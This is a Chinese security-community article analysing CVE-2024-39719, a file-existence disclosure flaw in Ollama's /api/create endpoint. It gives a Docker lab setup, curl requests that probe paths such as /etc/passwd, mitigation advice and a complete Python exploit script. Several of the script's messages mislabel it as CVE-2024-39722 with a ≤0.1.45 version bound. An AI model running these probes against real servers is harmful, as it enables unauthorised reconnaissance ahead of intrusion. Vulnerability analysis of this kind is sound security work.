


# Ollama 文件存在性泄露漏洞 (CVE-2024-39719) 详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/17960  
> **文章ID**: 17960

---

## 漏洞概述

CVE-2024-39719 是一个影响 Ollama 0.3.14 及之前版本的文件存在性泄露（File Existence Disclosure）漏洞。该漏洞允许攻击者通过 API 接口探测服务器上特定文件是否存在，从而可能导致信息泄露。

**发布日期**：2024年10月31日

## 漏洞详情

### 漏洞原理

该漏洞存在于 Ollama 的 `/api/create` 端点中。当攻击者调用 `CreateModel` API 并传递一个路径参数时，服务器会根据该路径是否存在返回不同的错误消息。这种行为使攻击者能够通过分析错误消息来确定服务器上特定文件或目录是否存在。

该漏洞的核心问题是在处理用户输入时没有正确地隐藏路径存在性信息，而是直接将文件系统错误返回给了客户端。

### 影响范围

此漏洞影响 Ollama 0.3.14 及之前的所有版本。

### 漏洞危害

虽然文件存在性泄露漏洞本身可能看起来不太严重，但它可能:

1. 作为更复杂攻击的前置步骤，帮助攻击者收集服务器信息
2. 探测关键配置文件、证书或敏感数据文件的存在
3. 辅助攻击者进行更有针对性的攻击
4. 在特定环境下导致信息泄露，例如确认特定用户的存在或系统特征

## 漏洞复现

### 环境搭建

1. 使用以下 Docker Compose 文件创建受影响的 Ollama 环境：

```
services:
  ollama:
    image: ollama/ollama:0.3.14
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

1. 启动服务：

```
docker compose up -d
```

1. 服务启动后，可通过访问 `http://your-ip:11434/` 确认 Ollama 0.3.14 已成功运行。

### 复现步骤

#### 1. 测试不存在的文件

使用 `curl` 命令发送请求，尝试访问不存在的文件：

```
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/tmp/non-existing"}'
```

返回结果：

```
{"error":"error reading modelfile: open /tmp/non-existing: no such file or directory"}
```

#### 2. 测试存在的文件

测试一个存在的文件，例如 `/etc/passwd`：

```
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc/passwd"}'
```

返回结果：

```
{"error":"no FROM line for the model was specified"}
```

通过以上不同的错误消息，攻击者可以判断目标路径文件是存在还是不存在，从而获取服务器文件结构信息。  
需要注意的是，服务器根据不同请求返回的信息可能随着版本不同而不同

#### 3. 通过脚本进行利用

```
python CVE_2024_39719.py -u <ollama-server-url> [-f <file-to-check>]
```

通过利用脚本，可以实现从版本检查到自定义测试文件的功能

* 首先脚本通过接口`/api/version`检查ollama的版本
* 然后构造payload将json数据以post方式发送到目标服务器
* 目标服务器和需要测试的文件可以通过命令行参数的形式传递
* 然后分析响应，根据不同响应确认测试文件是否存在于服务器上
* 一个典型的特征是"no such file or directory"，可以根据这个特征判断文件存在与否

运行结果

* 测试存在的文件  
  `python CVE_2024_39719.py -u 192.168.184.129:11434 -f /etc/passwd`



* 测试不存在的文件  
  `python CVE_2024_39719.py -u 192.168.184.129:11434 -f /file/not-exists`



## 漏洞修复

### 官方修复方案

Ollama 官方已在更新版本中修复了该漏洞。修复措施包括：

1. 统一错误处理，避免泄露文件存在性信息
2. 对用户输入的路径进行更严格的验证和过滤
3. 采用更加通用的错误消息，不直接暴露文件系统信息

### 修复建议

1. **升级Ollama版本**：将 Ollama 升级到最新版本是解决此漏洞的最有效方法。
2. **访问控制**：限制对 API 接口的访问，仅允许授权用户使用。
3. **网络隔离**：在可能的情况下，将 Ollama 服务部署在隔离网络中，减少外部访问。
4. **监控**：加强对 API 调用的监控，特别是对 `/api/create` 端点的异常访问模式进行检测。

## 利用脚本

```
import requests
from termcolor import colored
import argparse

def format_url(url):
    """
    Ensure URL is properly formatted (no trailing slashes)
    
    Args:
        url (str): URL to format
        
    Returns:
        str: Properly formatted URL
    """
    # Ensure URL starts with http/https
    if not url.startswith('http'):
        url = 'http://' + url
        
    # Remove trailing slash if present
    if url.endswith('/'):
        url = url[:-1]
        
    return url

def check_ollama_version(base_url):
    """
    Check Ollama version to determine if it's vulnerable to CVE-2024-39722
    
    Args:
        base_url (str): Base URL of Ollama server
        
    Returns:
        tuple: (is_vulnerable, version_str or None, error_message or None)
    """
    try:
        # Format URL and construct version endpoint URL
        base_url = format_url(base_url)
        version_url = f"{base_url}/api/version"
        
        # Send request to version endpoint
        response = requests.get(version_url, timeout=5)
        
        if response.status_code == 200:
            # Parse version from response
            data = response.json()
            if "version" in data:
                version = data["version"]
                # Check if version is vulnerable (≤ 0.1.45)
                is_vulnerable = is_version_vulnerable(version)
                
                if is_vulnerable:
                    return True, version, None
                else:
                    return False, version, f"Ollama version {version} is not vulnerable to CVE-2024-39722 (requires version ≤ 0.1.45)"
            else:
                return False, None, "Version information not found in response"
        else:
            return False, None, f"Failed to get version, server returned status code: {response.status_code}"
            
    except requests.exceptions.RequestException as e:
        return False, None, f"Connection error: {str(e)}"
    except Exception as e:
        return False, None, f"Error checking Ollama version: {str(e)}"

def is_version_vulnerable(version):
    """
    Check if the given version is vulnerable to CVE-2024-39722 (≤ 0.1.45)
    
    Args:
        version (str): Version string (e.g., "0.1.44")
        
    Returns:
        bool: True if version is vulnerable, False otherwise
    """
    try:
        # Parse version components
        components = version.split('.')
        major, minor, patch = map(int, components)
        
        # Check if version is <= 0.3.14
        if major == 0 and minor == 3 and patch <= 14:
            return True
        elif major == 0 and minor < 3:
            return True
        else:
            return False
    except (ValueError, IndexError):
        # If version parsing fails, assume vulnerable to be safe
        print(colored(f"[WARNING] Could not parse version string: {version}", "yellow"))
        return True

def check_file_existence(base_url, file_path):
    """
    Check if a file exists on the Ollama server using the file existence vulnerability
    
    Args:
        base_url (str): Base URL of Ollama server
        file_path (str): Path of the file to check
        
    Returns:
        tuple: (exists, response_text, error_message)
            exists: bool - True if file exists, False if not, None if error
            response_text: str - Raw response text from the server
            error_message: str - Error message if any
    """
    try:
        base_url = format_url(base_url)
        payload = {
            "name": "test",
            "path": file_path
        }
        
        # Send request to leak file endpoint
        response = requests.post(f"{base_url}/api/create", json=payload, timeout=5)
        
        if "no such file or directory" in response.text:
            return False, response.text, None
        else:
            # Unexpected response
            return True, response.text, None
            
    except requests.exceptions.RequestException as e:
        return None, None, f"Connection error: {str(e)}"
    except Exception as e:
        return None, None, f"Error checking file existence: {str(e)}"

def main():
    # Parse command line arguments
    parser = argparse.ArgumentParser(description='Check for CVE-2024-39719 (Ollama File Existence Disclosure)')
    parser.add_argument('-u', '--url', help='URL of the Ollama server', required=True)
    parser.add_argument('-f', '--file', default="/etc/passwd", help='File to check for existence')
    args = parser.parse_args()
    
    print(colored(f"[*] Checking Ollama server at {args.url} for CVE-2024-39719...", "blue"))
    
    # Check if server is vulnerable based on version
    is_vulnerable, version, error_message = check_ollama_version(args.url)
    
    if is_vulnerable:
        print(colored(f"[VULNERABLE] Ollama version {version} is vulnerable to CVE-2024-39719 (File Existence Disclosure)", "red"))
    elif error_message:
        print(colored(f"[ERROR] {error_message}", "red"))
    else:
        print(colored(f"[SAFE] Ollama version {version} is not vulnerable to CVE-2024-39719", "green"))
        return
    
    # Test the vulnerability by checking for the specified file
    file_exists, response_text, error = check_file_existence(args.url, args.file)
    
    if error:
        print(colored(f"[ERROR] {error}", "red"))
    else:
        if file_exists is True:
            print(colored(f"[INFO] File {args.file} may exist on the server", "green"))
        else:
            print(colored(f"[INFO] File {args.file} does not exist, but server is disclosing file existence", "green"))
        
        print(colored("
Server response:", "blue"))
        print(response_text)

if __name__ == "__main__":
    main()
```

<https://github.com/srcx404/CVE-2024-39719>
